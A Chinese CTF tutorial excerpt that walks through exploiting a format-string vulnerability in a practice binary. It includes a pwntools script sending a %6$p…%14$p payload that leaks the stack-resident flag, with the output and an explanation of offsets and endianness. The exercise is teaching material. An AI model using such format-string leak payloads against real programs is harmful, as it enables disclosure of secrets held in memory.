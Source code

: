 这题刚刚好是我编写的，然后就在第14个（地址）偏移的这边我们可以看见61616161=='aaaa'。说明我们的泄露在14个偏移量之后刚刚好到达了输入点，也就是aaaa输入到栈上面的位置就是偏移14.（初学者不要纠结为什么会偏移14，这个值是格式化字符串漏洞产生的未定义行为导致的泄露栈上面的其他内容所产生的）

然后我们来看看里面的栈帧关系，这里我们直接打开ida来看看：

![pEszR8e.png](https://s21.ax1x.com/2025/03/31/pEszR8e.png)

这边buf2是真flag，buf1是假flag，而我们输入点是buf，buf距离格式化字符串的偏移量是14。在64位里面一个（地址）偏移就是8位，32位里面一个偏移（地址）是4位。buf2到buf的距离是0xb0-0x70==0x40 也就是8个偏移量。14减8就是6，说明距离输入格式化字符串的偏移是6。那么我们可以把6-14的值都给打印出来。

编写如下脚本在虚拟机中运行得：

```python
from pwn import *

p = process('/home/feeling/ctf/exam/fmt1/fmt1')
p.sendline(b'%6$p.%7$p.%8$p.%9$p.%10$p.%11$p.%12$p.%13$p.%14$p')
leaks = p.recv().decode().split('.')

for i, leak in enumerate(leaks, 6):
    if '0x' in leak:
        try:
            value = int(leak, 16)  # 转换为整数
            string = p64(value).decode(errors='ignore')  # 使用p64处理
            print(f"Offset {i}: {string}")  # 反转显示
        except Exception as e:
            print(f"Offset {i}: Failed to decode - {e}")
            
```

就可以得到下面的结果：

```shell
Offset 6: Failed to decode - invalid literal for int() with base 16: '答案就在栈上面,你找找看吧,5203\n0x616c665f6c616572'
Offset 7: g{sn0wp3
Offset 8: 4r_lik3_
Offset 9: y0u}\x00\x00\x00\x00
Offset 10: fake_fla
Offset 11: g{sn0wp3
Offset 12: 4r_unlik
Offset 13: 3_y0u}\x00\x00
Offset 14: %6$p.%7$		#这个是我们输入的前面8个字节。刚好对应了我们算出来的偏移量。
```

两个要点：

1. 为什么第一个偏移量没有读出来呢，这个就要设计新的知识了，应为我们获得的字符都是由ASCII码转换过来的，如果前面加上了一段中文，中文不是正常的符号转换过来的，自然就没有办法显示了，只能靠别的方法，去把第一段的字节码给转换成字符串了。
2. 为什么需要反转呢，这是因为这个字节码是按照小端序，也就是倒序输出的，小端序是机器看的，大端序才是我们看的，`0x12345678`变成小端序后是`0x78563412`

欸这个时候有聪明的同学要问了，upup，为什么不用%s直接打印字符串呢，为什么要这样？

实际上：

1. 栈上的值并不是指向字符串的指针
2. 而是字符串的实际内容
3. 所以用 %s 会导致程序崩溃，因为它会把这些值当作指针去解引用
